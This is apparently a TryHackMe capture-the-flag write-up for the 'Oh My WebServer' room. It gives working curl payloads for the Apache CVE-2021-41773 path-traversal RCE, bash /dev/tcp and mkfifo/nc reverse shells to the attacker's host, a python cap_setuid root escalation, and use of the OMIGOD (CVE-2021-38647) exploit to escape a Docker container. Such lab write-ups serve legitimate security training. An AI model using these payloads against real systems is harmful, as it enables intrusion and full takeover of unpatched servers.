



# Oh My WebServer
**Date:** March 6th 2022

**Author:** j.info

**Link:** [**Oh My WebServer**](https://tryhackme.com/room/ohmyweb) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Medium

<br>



<br>

## Objectives
- User flag
- Root flag

<br>

## Initial Enumeration

<br>

### Nmap Scan

`sudo nmap -sV -sC -A -T4 10.10.26.161`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Consult - Business Consultancy Agency Template | Home
```

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.26.161 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/.htaccess.html       (Status: 403) [Size: 199]
/.htpasswd            (Status: 403) [Size: 199]
/.htaccess            (Status: 403) [Size: 199]
/.htpasswd.txt        (Status: 403) [Size: 199]
/.htaccess.php        (Status: 403) [Size: 199]
/.htpasswd.html       (Status: 403) [Size: 199]
/.htaccess.txt        (Status: 403) [Size: 199]
/.htpasswd.php        (Status: 403) [Size: 199]
/assets               (Status: 200) [Size: 404]
/index.html           (Status: 200) [Size: 57985]
```

<br>

## Website Digging

Visiting the main page:

<br>


<br>

Taking a look at **/assets**:

<br>



<br>

Looking through those directories didn't yield anything interesting but the **DS_Store** file kept popping up in them. I download the file and take a look at what it is:

`file DS_Store`

```
DS_Store: Apple Desktop Services Store
```

I research this a bit and it too doesn't yield anything useful.

<br>

## CVE-2021-41773

The website is running **Apache 2.4.49** and searching for exploits on that leads to **CVE-2021-41773** which is a path traversal and RCE exploit. I visit [**this GitHub repository**](https://github.com/mr-exo/CVE-2021-41773) which explains how to use this exploit. Running the command listed on the page:

`curl 'http://10.10.26.161/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' --data 'echo Content-Type: text/plain; echo; id'`

```
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

`curl 'http://10.10.26.161/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' --data 'echo Content-Type: text/plain; echo; hostname'`

```
4a70924bafa0
```

So we have RCE, let's work on getting a shell.

<br>

## System Access

I first start a listener up on my system and then run the curl command with **which nc** and it comes up blank so we can't use netcat for the reverse shell. Same goes with php. I try for a standard bash shell and it works.

`curl -v 'http://10.10.26.161/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' --data 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/<MY IP>/4444 0>&1'`

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.26.161] 55610
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
daemon@4a70924bafa0:/bin$
```

<br>

## Docker Container

It turns out we're inside of a docker container and you can find that by looking in the / directory for a file called **.dockerenv**.

I check to see if the docker socket is mounted and unfortunately it's not.

`find / -name docker.sock 2>/dev/null`

Running a 'hostname -I' shows our IP address to be **172.17.0.2**

I check the arp cache to see if I can discover the host systems IP address and find it:

`arp -a`

```
ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1) at 02:42:6f:4e:2d:0f [ether] on eth0
```

So we know the host IP address now.

I check around for SUID files and don't see anything interesting but we do have python3 set with the setuid capability:

`getcap -r / 2>/dev/null`

```
/usr/bin/python3.7 = cap_setuid+ep
```

<br>

## Docker Root

I run the following to get root in the container:

/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'

```
daemon@4a70924bafa0:/tmp$ /usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
root@4a70924bafa0:/tmp# whoami
root
```

I change over to the root directory and find the **user.txt** flag waiting:

```
root@4a70924bafa0:/root# wc -c user.txt
38 user.txt
```

Now to figure out how to escape from this container.

I check to see if ssh is open on the host system and it is so maybe we can find a way to ssh over.

`echo > /dev/tcp/172.17.0.1/22 && echo "Port is open"`

```
Port is open
```

I transfer **nmap** over to the container to do some further port enumeration and the containers host system which shows me that in addition to ssh and http we have another port open, 5986.

```
5986/tcp open  unknown  syn-ack
```

I search google for this port to see what it is and a lot of results come back with WinRM, which isn't applicable here. So, I search again filtering those out. It looks like this port is used by **Open Management Infrastructure** and it has a known RCE exploit with it **CVE-2021-38647** aka **OMIGOD**.

You can read more about the exploit [**here**](https://usa.kaspersky.com/blog/vulnerabilities-in-omi-azure/25371/)

Looking on GitHub you can find a POC [**here**](https://github.com/AlteredSecurity/CVE-2021-38647), which I download and then transfer over to the docker container.

The instructions to run the exploit are as follows:

```
# Execute command on the target machine.
python CVE-2021-38647.py -t IP -p 5986 -c COMMAND
```

I test it out by checking the hostname:

'python3 omigod.py -t 172.17.0.1 -c hostname'

```
ubuntu
```

So, it appears to be working and we can execute commands on the host system.

<br>

## Actual Root

I check to see if netcat is on the host system and it is so I set up a listener on my system. Then, I run the exploit with the standard mkfifo reverse shell as it's command:

`python3 omigod.py -t 172.17.0.1 -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <MY IP> 5555 >/tmp/f"`

```
listening on [any] 5555 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.169.0] 36998
bash: cannot set terminal process group (1612): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/var/opt/microsoft/scx/tmp# hostname
hostname
ubuntu
root@ubuntu:/var/opt/microsoft/scx/tmp# whoami
whoami
root
root@ubuntu:/var/opt/microsoft/scx/tmp#
```

You can now look at **/root/root.txt** for your final flag:

`wc -c /root/root.txt`

```
38 /root/root.txt
```

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **CVE-2021-41773** to exploit a vulnerable Apache 2.4.49 server and obtain a shell
- Enumeration within a Docker container to figure out the host systems IP and open ports
- Privilege escalation using a binary file with **cap_setuid** capabilities
- Using the **CVE-2021-38647** aka **OMIGOD** exploit to gain RCE on the host system and break out of the Docker container

<br>

Many thanks to:
- [**tinyb0y**](https://tryhackme.com/p/tinyb0y) for creating this CTF
- **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)